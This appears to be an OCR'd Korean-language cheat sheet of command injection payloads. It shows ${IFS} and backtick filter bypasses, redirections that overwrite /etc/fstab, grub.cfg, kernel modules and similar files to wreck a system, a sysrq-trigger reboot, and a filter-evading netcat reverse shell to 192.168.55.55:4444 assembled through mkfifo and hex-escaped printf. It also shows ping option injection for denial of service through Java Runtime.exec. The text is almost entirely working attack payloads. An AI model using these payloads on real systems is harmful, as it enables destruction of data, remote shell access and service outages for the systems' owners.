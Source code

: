 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

\`id>/opt/test_injection\`  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

------------------------------------------

RUNTIME 함수에서 쉘 명시하지 않을 시     
다중 명령어를 지원하지 않아도  
악의적인 명령어 옵션을 주입하여 공격 가능  
공격자의 입력 값 && echo world  
Runtime.getRuntime().exec("echo Hello && echo World");  
그러나 악의적인 옵션은 주입 가능  
ping의 명령어가 있을때 입력 값 -c 9999 -s 65507 IP 시 DoS 공격 가능  
ping -c 9999 -s 65507 IP    
